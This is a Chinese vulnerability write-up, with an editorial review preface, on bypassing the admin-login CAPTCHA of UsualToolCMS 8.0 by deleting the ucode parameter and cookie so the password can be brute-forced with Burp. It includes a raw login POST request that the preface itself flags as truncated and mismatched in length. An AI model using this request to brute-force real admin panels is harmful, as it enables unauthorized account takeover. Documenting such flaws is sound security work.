




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：同时删除ucode与Cookie使服务端验证码态缺失，正确用户名密码仍需要

- **凭据与会话边界（1）**：简介只删验证码参数，正文实际连Cookie都删，关键双空状态条件不能漏。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（2）**：验证码绕过不等于免密码登录，爆破还依赖无其他限速/锁定。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（3）**：最终upass=admi疑截断，Content-Length23与正文不符；源码/响应和原出处缺。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# UsualToolcms 8.0 绕过后台验证码爆破

一、漏洞简介
------------

可通过删除验证码参数，进行暴力破解

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点:<http://0-sec.org/cmsadmin/>

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

删除ucode参数和cookie后登陆，直接登陆成功

通过burp爆破后台密码

    POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23

    uuser=admin&upass=admi
